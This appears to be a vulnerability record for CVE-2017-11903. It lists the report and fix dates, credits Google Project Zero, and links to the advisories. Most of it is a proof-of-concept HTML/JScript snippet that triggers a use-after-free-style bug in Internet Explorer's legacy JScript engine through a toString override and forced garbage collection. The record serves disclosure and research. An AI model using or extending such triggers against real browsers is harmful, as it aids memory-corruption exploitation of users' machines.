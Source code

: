 # CVE-2017-11903

- Report: Oct 2017
- Fix: Dec 2017
- Credit: ifratric of Google Project Zero

## PoC

```html
<script language="Jscript.Encode">

var vars = new Array(100);
for(var i=0;i<100;i++) vars[i] = {};

function f() {
  vars[1] = 1;
  CollectGarbage();
  return {};
}

vars[1].toString = f;
Array.prototype.join.call(vars);

</script>
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11903)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1376)
